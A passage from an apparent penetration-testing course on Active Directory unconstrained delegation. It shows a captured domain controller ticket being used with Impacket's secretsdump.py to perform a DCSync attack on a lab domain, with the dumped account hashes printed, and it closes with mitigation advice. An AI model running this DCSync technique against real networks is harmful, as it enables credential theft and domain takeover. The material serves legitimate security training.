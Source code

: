 This TGT has been saved to disk in the following file `DC01$@INLANEFREIGHT.LOCAL_krbtgt@INLANEFREIGHT.LOCAL.ccache`.

Finally, we can use `impacket` to use this ticket by exporting its path in the `KRB5CCNAME` environment variable and then using `secretsdump.py` to perform a `DCSync` attack.

#### Using Impacket with Kerberos Authentication for the DCSync attack
```shell-session
slomkm@htb[/htb]$ export KRB5CCNAME=./DC01\$@INLANEFREIGHT.LOCAL_krbtgt@INLANEFREIGHT.LOCAL.ccache
slomkm@htb[/htb]$ secretsdump.py -k -no-pass dc01.inlanefreight.local

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
INLANEFREIGHT.LOCAL\Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:810d754e118439bab1e1d13216150299:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
daniel.carter:1109:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
sqldev:1110:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
sqlprod:1111:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
sqlqa:1112:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
svc-backup:1113:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
svc-scan:1114:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
<SNIP>
```

**Note:** Use the command `unset KRB5CCNAME` to unset the value of the environment variable `KRB5CCNAME`

---

## Wrap-up

Unconstrained delegation should be avoided in modern Active Directory environments in favor of constrained or resource-based constrained delegation wherever possible. However, some applications may not work with constrained delegation, and if unconstrained delegation is an absolute necessity, steps can be taken to reduce the risk. Sensitive accounts can be marked as Sensitive and cannot be delegated or be placed into the Protected User group. This group blocks its members from being used for Kerberos delegation and will keep their TGTs off hosts after they authenticate.